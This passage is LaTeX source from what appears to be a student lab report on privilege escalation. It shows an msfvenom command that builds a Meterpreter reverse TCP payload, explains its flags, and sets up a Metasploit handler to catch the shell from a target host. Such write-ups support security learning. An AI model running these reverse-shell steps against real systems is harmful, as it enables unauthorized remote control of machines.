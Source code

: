 \documentclass[a4paper]{article}
\newcommand{\abc}{\hfill \break}
\begin{document}
\subsubsection{Trying to get privileges using Metasploit and Meterpreter}
Lastly, we tried to use Meterpreter and its prebuilt privilege escalation modules.\abc
To do this, we had to generate a payload first. While we could have just used a Netcat shell and upgraded to Meterpreter, we took this opportunity to learn something new. The payload was generated with the following command: \texttt{msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=[IP] LPORT=4444 -f elf -o payload.bin}, which is also broken down below.\cite{msfvenomdocs}
\begin{lstlisting}[language=bash]
-p linux/x86/meterpreter/reverse_tcp #setting the payload to be reverse
                                      #TCP for Linux x86
LHOST=[IP] # sets IP address of the attacking machine
LPORT=4444 #sets the local port to listen for a connection
-f elf #specifies the output format
-o payload.bin #specifies the output filename
\end{lstlisting}
The output of the command can be seen in Figure 28.
\begin{figure}[h]
	\includegraphics[scale=0.7]{images/msfgenpayload.png}
	\centering
	\caption{Generating the payload using \texttt{msfvenom}}
\end{figure}\abc
After this, the payload is uploaded to the target using scp, as demonstrated in Figure 29.
\begin{figure}[ht]
	\includegraphics[scale=0.5]{images/scp.png}
	\centering
	\caption{Uploading the payload to the target}
\end{figure}\abc
\newpage\abc
The next step is to open the Metasploit console by running \texttt{msfconsole}. Set the exploit to \texttt{exploit/multi/handler}, the payload to \texttt{linux/x86/meterpreter/reverse\_tcp}, the LHOST to \texttt{192.168.15.4}, and finally, run the command \texttt{run} to start the reverse TCP handler. After that, we execute the binary on the target, and we have a Meterpreter shell, as shown in Figures 30 and 31.
\end{document}
